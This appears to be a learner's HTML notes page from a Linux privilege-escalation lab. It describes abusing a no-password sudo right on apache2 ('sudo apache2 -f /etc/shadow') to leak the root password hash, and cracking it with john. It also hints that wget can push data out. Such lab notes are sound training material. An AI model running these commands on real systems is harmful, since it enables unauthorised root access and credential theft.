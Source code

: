 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Intended functionality</title>
</head><body>Escilation via intended functionality<br/>
<br/>
Abusing the fact you have sudo to do an intended function.<br/>
<br/>
IE ...<br/>
<br/>
sudo no password priv avilable for apache2. The user likely has some admin tasks.<br/>
<br/>
The sudo priv allows for viewing of protected files. so we can abuse that intended function.<br/>
<br/>
if GTFO des not have an entry. google it<br/>
<br/>
'apache2 sudo privelage escilation'<br/>
<br/>
and look for results.<br/>
<br/>
https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/<br/>
<br/>
<img src="image.png"/><br/>
<br/>
This errors out on line 1 which is enough to get teh root details that can then be extracted and potentailly cracked.<br/>
<br/>
<br/>
We are abusing the an intended fucntion of a sudo privelage.<br/>
<br/>
wget can push!!!<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: sudo -l<br/>
2. From the output, notice the list of programs that can run via sudo.<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
sudo apache2 -f /etc/shadow<br/>
2. From the output, copy the root hash.<br/>
<br/>
Attacker VM<br/>
<br/>
1. Open command prompt and type:<br/>
echo '[Pasted Root Hash]' &gt; hash.txt<br/>
2. In command prompt type:<br/>
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt<br/>
3. From the output, notice the cracked credentials.<br/>
</body></html>